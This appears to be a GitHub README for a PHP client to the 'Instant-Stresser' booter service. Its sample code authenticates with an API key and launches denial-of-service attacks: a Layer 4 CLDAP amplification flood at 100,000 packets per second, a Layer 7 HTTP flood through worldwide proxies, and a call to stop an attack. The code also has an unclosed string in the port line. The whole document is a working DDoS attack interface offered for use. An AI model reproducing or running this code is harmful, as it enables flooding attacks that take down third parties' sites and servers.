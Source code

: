 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = 123456789;
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = "80;
$time = 15;
$method = "CLDAP";
$slots = 1;
$pps = 100000;

/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4($host, $port, $time, $method, $slots, $pps);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = "15";
$method = "JSDOM";
$slots = 1;
$origin = "Worldwide";
$requesttype = "GET";
$ratelimit = "false";

/* Parameters : URL , Time , Method , Slots , Type, Origin Proxy, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7($host, $time, $method, $slots, $requesttype, $origin, $ratelimit);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
